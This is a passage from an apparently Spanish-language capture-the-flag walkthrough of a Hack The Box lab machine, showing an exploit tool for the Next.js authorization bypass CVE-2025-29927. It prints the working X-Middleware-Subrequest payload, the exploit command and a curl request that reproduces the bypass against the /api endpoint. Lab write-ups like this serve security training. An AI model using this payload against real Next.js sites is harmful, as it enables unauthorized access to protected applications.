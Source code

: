 ```
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2025-29927 (Next.js) - Authorization Bypass
TARGETS: http://previous.htb/
PREPARE: Target is running Next.js!
LOADING: Detecting Next.js version with Selenium...
VERSION: Target is running Next.js version 15.2.2 (Vulnerable)

PAYLOAD: {'X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware'}
EXPLOIT: Payload sent!
FAILURE: Authorization bypass header failed.

PAYLOAD: {'X-Middleware-Subrequest': 'src/middleware:src/middleware:src/middleware:src/middleware:src/middleware'}
EXPLOIT: Payload sent!
FAILURE: Authorization bypass header failed.
ERRORED: Exploitation failed! Target may not be vulnerable.
```

Pero veremos que esta fallando y es por que no estamos encontrando la `URL` del parametro especifico que es vulnerable a esta inyeccion.

Si seguimos investigando un poco y probamos en vez de la `URL` normal, la de la `/api` que vemos que esta solicitando todo el rato...

```shell
python3 exploit-CVE-2025-29927.py -u 'http://previous.htb/api'
```

Info:

```
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2025-29927 (Next.js) - Authorization Bypass
TARGETS: http://previous.htb/api
PREPARE: Target is running Next.js!
LOADING: Detecting Next.js version with Selenium...
VERSION: Target is running Next.js version 15.2.2 (Vulnerable)

PAYLOAD: {'X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware'}
EXPLOIT: Payload sent!
SUCCESS: Authorization bypass header found!
OUTPUTS: Response written to file: nextjs_bypass_previous.htb.html
REQUEST: curl -i -k "http://previous.htb/api" -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware"
```
